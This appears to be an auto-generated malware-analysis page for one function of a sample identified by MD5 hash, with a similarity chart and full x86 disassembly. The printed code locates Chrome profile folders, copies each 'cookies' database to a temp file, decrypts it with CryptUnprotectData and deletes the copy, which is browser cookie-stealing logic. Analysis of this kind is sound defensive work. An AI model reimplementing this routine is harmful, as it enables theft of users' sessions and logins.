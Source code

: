 ```yaml
---
layout: post
title:  "fcn.00473bc1 @ 152885a790b99953ce23874f0947b7bd"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00473bc1
- **Origin (md5):** 152885a790b99953ce23874f0947b7bd
- **VirusTotal:** [virustotal.com/gui/file/152885a790b99953ce23874f0947b7bd][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Behaviour Tags
<span class="bhv-tag" id="na">N/A</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [-645.5601806640625, 264.7361755371094, '<b><a href="/report/fcn.00473bc1@152885a790b99953ce23874f0947b7bd">fcn.00473bc1</a><br>@152885a790b99953ce23874f0947b7bd</b><br>', 'point { fill-color: #e0440e; }'],
[-53.56996536254883, 140.44757080078125, '<b><a href="/report/fcn.00473bc1@912f1d013a0d6151bc7a7cef6da1b2a0">fcn.00473bc1</a><br>@912f1d013a0d6151bc7a7cef6da1b2a0</b><br>', 'null'],
[-241.92701721191406, 715.276611328125, '<b><a href="/report/fcn.00473bc1@fb9b7d22bc1c143ac66b0575cbdd088d">fcn.00473bc1</a><br>@fb9b7d22bc1c143ac66b0575cbdd088d</b><br>', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push 0xe7c
mov eax, 0x49ab4c
call fcn.00481ea4
mov edi, ecx
lea eax, [ebp-0x424]
mov dword[ebp-0xda4], edi
push eax
xor esi, esi
push esi
push esi
push 0x801c
push esi
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax, eax
js 0x473f85
mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax, [ebp-0x424]
push str.GoogleChromeUser_Data
push eax
call ebx
lea eax, [ebp-0x424]
push eax
lea eax, [ebp-0x834]
push 0x104
push eax
call fcn.00481a97
add esp, 0xc
lea eax, [ebp-0x834]
push 0x4ae8d0
push eax
call ebx
lea eax, [ebp-0x834]
xorps xmm0, xmm0
push eax
lea ecx, [ebp-0xd98]
movlpd qword[ebp-0xdb4], xmm0
call fcn.00473a35
mov dword[ebp-4], esi
lea ecx, [ebp-0xd98]
call fcn.00473a57
lea ecx, [ebp-0xd98]
test al, al
je 0x473f80
call fcn.0040547a
test byte[eax], 0x10
je 0x473c54
lea ebx, [eax+0x2c]
push 0x4ae754
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax, eax
je 0x473c54
push 0x4ae758
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax, eax
je 0x473c54
lea eax, [ebp-0x424]
push eax
lea eax, [ebp-0x21c]
push 0x104
push eax
call fcn.00481a97
add esp, 0xc
lea eax, [ebp-0x21c]
push ebx
mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call ebx
push str.cookies
lea eax, [ebp-0x21c]
push eax
call ebx
lea eax, [ebp-0xa3c]
push eax
push 0x104
call dword[sym.imp.KERNEL32.dll_GetTempPathW]
lea eax, [ebp-0x62c]
push eax
push esi
push 0x4ae770
lea eax, [ebp-0xa3c]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]
push esi
lea eax, [ebp-0x62c]
push eax
lea eax, [ebp-0x21c]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
test eax, eax
je 0x473f6e
lea ecx, [ebp-0xabc]
call fcn.00473faa
lea eax, [ebp-0x62c]
mov byte[ebp-4], 2
push eax
lea ecx, [ebp-0xb40]
call fcn.00404fdb
mov ecx, eax
mov byte[ebp-4], 3
call fcn.00404b49
push eax
lea ecx, [ebp-0xe88]
call fcn.0041d750
lea ecx, [ebp-0xb40]
mov byte[ebp-4], 5
call fcn.0040501c
push ecx
lea eax, [ebp-0xe88]
push eax
lea ecx, [ebp-0xdc8]
call fcn.0041da8e
lea eax, [ebp-0xda0]
mov byte[ebp-4], 6
push eax
lea ecx, [ebp-0xdc8]
call fcn.0041daa4
lea eax, [ebp-0xde0]
push eax
call fcn.0041dab7
mov edx, eax
lea ecx, [ebp-0xda0]
call fcn.0047517d
test al, al
je 0x473f07
push esi
lea eax, [ebp-0xa6c]
push eax
lea eax, [ebp-0xdd4]
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.00475197
push ecx
lea eax, [ebp-0xdcc]
mov byte[ebp-4], 7
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.004751c4
mov ebx, eax
lea eax, [ebp-0xdd0]
push ecx
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.0041d96d
mov dword[ebp-0xdbc], eax
lea eax, [ebp-0xdac]
push eax
push 1
push esi
push esi
push esi
push esi
lea eax, [ebp-0xdbc]
mov dword[ebp-0xdb8], ebx
push eax
call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]
test eax, eax
je 0x473ee8
push 2
lea eax, [ebp-0xa54]
push eax
lea eax, [ebp-0xdd8]
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.00475197
mov byte[ebp-4], 8
lea ecx, [ebp-0xa84]
push dword[ebp-0xdac]
push dword[ebp-0xda8]
call fcn.0040a731
push ecx
lea ecx, [edi+6]
mov byte[ebp-4], 9
push ecx
lea ecx, [ebp-0xdb4]
push ecx
mov ecx, eax
call fcn.0040b51d
push eax
lea ecx, [ebp-0xa6c]
call fcn.0040b51d
push eax
call fcn.0047fccc
pop ecx
push edx
push eax
lea ecx, [ebp-0xa54]
call fcn.0040b51d
push eax
lea ecx, [ebp-0xabc]
call fcn.00473ab8
lea ecx, [ebp-0xa84]
mov bl, al
call fcn.0040b62f
test bl, bl
je 0x473ecd
mov byte[edi+5], 1
lea ecx, [ebp-0xa54]
mov byte[ebp-4], 7
call fcn.0040b62f
push dword[ebp-0xda8]
call dword[sym.imp.KERNEL32.dll_LocalFree]
lea ecx, [ebp-0xa6c]
mov byte[ebp-4], 6
call fcn.0040b62f
lea ecx, [ebp-0xda0]
call fcn.00474ea7
jmp 0x473d8e
push ecx
lea eax, [edi+6]
push eax
lea eax, [ebp-0xdb4]
push eax
push 0x4a3288
push esi
push esi
push 0x4a3288
lea ecx, [ebp-0xabc]
call fcn.00473ab8
test al, al
je 0x473f32
mov byte[edi+5], 1
lea ecx, [ebp-0xdc8]
mov byte[ebp-4], 5
call fcn.00473fd9
lea ecx, [ebp-0xe88]
mov byte[ebp-4], 2
call fcn.0041d7ec
lea ecx, [ebp-0xabc]
call fcn.00473fc6
jmp 0x473f6b
mov dword[ebp-4], esi
lea eax, [ebp-0x62c]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
jmp 0x473c54
call fcn.00473a97
call fcn.00481df6
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/152885a790b99953ce23874f0947b7bd